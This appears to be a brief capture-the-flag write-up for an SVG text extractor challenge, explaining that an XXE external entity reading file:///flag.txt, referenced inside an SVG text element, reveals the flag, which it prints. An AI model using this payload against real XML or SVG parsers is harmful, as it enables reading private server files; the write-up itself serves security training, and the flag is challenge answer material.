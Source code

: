 # svg text extractor

This site was a simple svg text extractor. It displayed text under the `<text>` element for a given svg file.

The solution was to use an XXE attack on the site by embedding `<!ENTITY xxe SYSTEM "file:///flag.txt" >` in the svg and referencing it in the `<text>` element like so:
`<text font-family="Verdana" font-size="16" x="10" y="40">&xxe;</text>`

The flag is: `flag{XXE_is_such_a_forced_acronym___df76d30ceb86}`
